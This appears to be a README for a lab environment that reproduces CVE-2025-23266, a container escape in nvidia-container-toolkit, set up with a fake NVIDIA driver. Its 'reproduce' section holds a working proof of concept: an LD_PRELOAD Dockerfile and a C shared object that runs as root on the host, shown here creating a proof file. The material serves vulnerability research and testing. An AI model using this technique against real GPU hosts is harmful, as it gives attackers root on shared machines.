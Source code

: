 # nvidia-container-toolkit cve-2025-23266

* dqd:
  * ssst0n3/docker_archive:cve-2025-23266 -> ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.2.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-23266 -> ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0: CDI mode compatible
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.2.0: setup hostname; install netcat
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.1.0

## usage

```shell
$ cd vul/cve-2025-23266
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

```shell
$ ./ssh
root@cve-2025-23266:~# mkdir poc
cd poc
cat << EOF > Dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/evil.so
ADD evil.so /
EOF

cat << EOF > evil.c 
#include <stdlib.h>
#include <stdio.h>

void _init() {
    FILE *f = fopen("/proof-cve-2025-23266", "w");
    fclose(f);
}
EOF

gcc -fPIC -shared -o evil.so evil.c -nostartfiles
docker build -t poc .
root@cve-2025-23266:~# docker run --rm --runtime=nvidia --gpus=all poc
root@cve-2025-23266:~# ls -lah /proof-cve-2025-23266 
-rw-r--r-- 1 root root 0 Jul 21 14:49 /proof-cve-2025-23266
```

### fake-nvidia

```shell
root@cve-2025-23266:~/poc# nvidia-container-cli info
NVRM version:   575.57.08
CUDA version:   12.2

Device Index:   0
Device Minor:   0
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-0-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   1
Device Minor:   1
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-1-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   2
Device Minor:   2
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-2-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   3
Device Minor:   3
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-3-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5
root@cve-2025-23266:~/poc# lsmod |grep fake
fake_nvidia_driver     12288  0
root@cve-2025-23266:~/poc# ls -lah /usr/local/lib/libnvidia-ml.so.1
-rwxr-xr-x 1 root root 22K Jul 25 03:05 /usr/local/lib/libnvidia-ml.so.1
root@cve-2025-23266:~/poc# systemctl status fake-nvidia-mknod
○ fake-nvidia-mknod.service - Create device nodes for fake nvidia driver
     Loaded: loaded (/etc/systemd/system/fake-nvidia-mknod.service; enabled; preset: enabled)
     Active: inactive (dead) since Fri 2025-07-25 03:53:03 UTC; 6min ago
    Process: 646 ExecStart=/usr/local/bin/fake-nvidia-mknod.sh (code=exited, status=0/SUCCESS)
   Main PID: 646 (code=exited, status=0/SUCCESS)
        CPU: 7ms

Jul 25 03:53:03 cve-2025-23266 systemd[1]: Starting fake-nvidia-mknod.service - Create device nodes for fake nvidia driver...
Jul 25 03:53:03 cve-2025-23266 systemd[1]: fake-nvidia-mknod.service: Deactivated successfully.
Jul 25 03:53:03 cve-2025-23266 systemd[1]: Finished fake-nvidia-mknod.service - Create device nodes for fake nvidia driver.
```

### env details

```shell
$ ./ssh
root@cve-2025-23266:~/poc# docker info
Client: Docker Engine - Community
 Version:    28.1.1
 Context:    default
 Debug Mode: false
 Plugins:
  buildx: Docker Buildx (Docker Inc.)
    Version:  v0.20.1
    Path:     /usr/libexec/docker/cli-plugins/docker-buildx
  compose: Docker Compose (Docker Inc.)
    Version:  v2.33.1
    Path:     /usr/libexec/docker/cli-plugins/docker-compose

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 1
 Server Version: 28.1.1
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Using metacopy: false
  Native Overlay Diff: true
  userxattr: false
 Logging Driver: json-file
 Cgroup Driver: systemd
 Cgroup Version: 2
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local splunk syslog
 Swarm: inactive
 Runtimes: runc io.containerd.runc.v2 nvidia
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 05044ec0a9a75232cad458027ca83437aae3f4da
 runc version: v1.2.5-0-g59923ef
 init version: de40ad0
 Security Options:
  apparmor
  seccomp
   Profile: builtin
  cgroupns
 Kernel Version: 6.8.0-64-generic
 Operating System: Ubuntu 24.04.2 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 1.922GiB
 Name: cve-2025-23266
 ID: 6cfae970-9b1e-40e5-95a1-269797a55572
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Experimental: false
 Insecure Registries:
  ::1/128
  127.0.0.0/8
 Live Restore Enabled: false
```

## build

```shell
make all DIR=vul/cve-2025-23266
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0
```
